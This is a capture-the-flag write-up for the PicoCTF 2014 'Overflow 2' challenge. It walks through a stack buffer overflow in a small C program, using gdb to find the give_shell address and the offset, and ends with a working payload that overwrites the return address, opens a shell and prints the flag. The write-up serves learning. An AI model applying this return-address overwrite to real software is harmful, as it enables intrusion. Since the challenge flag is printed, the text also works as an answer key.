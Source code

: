 # Pico-CTF 2014: Overflow 2

**Category:** Binary Exploitation
**Points:** 70
**Total Solves:** Not Available
## Problem Description:
[//]: # (Description of your problem. For eg use below description as a template)
[//]: # (> This program is vulnerable to a format string attack! See if you can modify a variable by supplying a format string! The binary can be found at /home/format/ on the shell server. The source can be found [here](format.c).)
> This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively here, and the source can be found [here](overflow2.c).

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This never gets called! */
void give_shell(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    system("/bin/sh -i");
}

void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}

int main(int argc, char **argv){
    if (argc > 1)
        vuln(argv[1]);
    return 0;
}
```

## Write-up
[//]: # (> Your write up goes here.)
> There is a buffer overflow vulnerability in this c program, the argument passed as string is directly getting copied to variable buf withou checking any bounds in function vuln().

```c
void vuln(char *input){
    char buf[16];
    strcpy(buf, input);
}
```
> If we give input more than 16 character strcpy will start overriding the stack.
To get the flag we need to call function give_shell(), in order to do so we can override stack of vuln function so that when its execution finishes control goes to give_shell() function. 
So, first we need to figure out the address of function give_shell(). Fot that we can use gdb.

```bash
pico74093@shell:/home/overflow2$ gdb overflow2
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from overflow2...(no debugging symbols found)...done.
(gdb) p &give_shell
$1 = (<text variable, no debug info> *) 0x80484ad <give_shell>
(gdb)
```

> Now we have address of function to write on stack of function vuln() we need figure out how much char we need to write on stack using strcpy so that address of give_shell() `x80484ad` get written at exact place, which just after 4 bytes after the address stored at`EBP`. Why because EBP stores the BP (Base pointer) of previous caller function, in this can main but we want it to be give_shell(). To figure out the lngth of char string which we are going to pass we can pass randowm characters like "aaaaa" and see how much far it is from address stored at register EBP.
```
(gdb) p &vuln
$2 = (<text variable, no debug info> *) 0x80484e2 <vuln>
(gdb) disassemble vuln
Dump of assembler code for function vuln:
   0x080484e2 <+0>:     push   %ebp
   0x080484e3 <+1>:     mov    %esp,%ebp
   0x080484e5 <+3>:     sub    $0x28,%esp
   0x080484e8 <+6>:     mov    0x8(%ebp),%eax
   0x080484eb <+9>:     mov    %eax,0x4(%esp)
   0x080484ef <+13>:    lea    -0x18(%ebp),%eax
   0x080484f2 <+16>:    mov    %eax,(%esp)
   0x080484f5 <+19>:    call   0x8048360 <strcpy@plt>
   0x080484fa <+24>:    leave
   0x080484fb <+25>:    ret
End of assembler dump.
(gdb) b *0x080484fa
Breakpoint 1 at 0x80484fa
(gdb) r "aaaaaa"
Starting program: /home/overflow2/overflow2 "aaaaaa"

Breakpoint 1, 0x080484fa in vuln ()
(gdb) x /x $ebp-24
0xffffd6a0:     0x61616161
(gdb) x /x $ebp-23
0xffffd6a1:     0x61616161
(gdb) x /x $ebp-25
0xffffd69f:     0x61616108
(gdb) x /x $ebp-26
0xffffd69e:     0x61610804
(gdb)
```

> From above we can see that we need to pass more than 24 charcters to overwrite the content stored at address stored at register EBP. We need to also overwrite the returning adddress, so our string to passed as argument can be: `aaaaaaaaaaaaaaaaaaaaaaaaaaaa\xad\x84\x04\x08`. Here address is in reverese order because machine is little endian.
We can execute the binary as:

```bash
pico74093@shell:/home/overflow2$ ./overflow2 $(python -c 'print "a"*28 + "\xad\x84\x04\x08"')
$ whoami
pico74093
$ cat flag.txt
controlling_%eip_feels_great
```

> Flag is **controlling_%eip_feels_great**
## Other write-ups and resources

* None
